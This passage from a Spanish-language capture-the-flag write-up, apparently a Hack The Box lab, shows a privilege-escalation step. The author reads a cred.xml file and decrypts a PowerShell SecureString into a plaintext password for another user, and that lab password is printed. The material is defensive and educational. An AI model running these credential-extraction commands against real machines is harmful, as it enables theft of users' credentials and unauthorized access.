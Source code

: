 ## Privilege Escalation

### Decrypt PowerShell Secure String Password (Shell as Tom)

Revisando el directorio (_C:\Users\nico\Desktop_), verificamos que nos encontramos con un archivo XML el cual contiene supuestamente las credenciales del usuario (Tom@htb.local).

La contraseña se encuentra en formato SecureString, por lo tanto, deberemos de desencriptarla para visualizarla en texto plano.

```powershell
dir

type cred.xml
```

<figure><img src="../../../../../.gitbook/assets/3352_vmware_RalEqzOnjf.png" alt="" width="563"><figcaption></figcaption></figure>

Usamos PowerShell para importar credenciales desde un archivo `cred.xml` con `Import-Clixml`, extraer la contraseña en texto plano usando `$cred.GetNetworkCredential().Password` y mostrarla en la consola con `Write-Output`.

Verificamos que la contraseña en texto plano es: _1ts-mag1c!!!_

```powershell
$cred = Import-Clixml -Path "C:\Users\nico\Desktop\cred.xml"

$plainPassword = $cred.GetNetworkCredential().Password

Write-Output $plainPassword
```
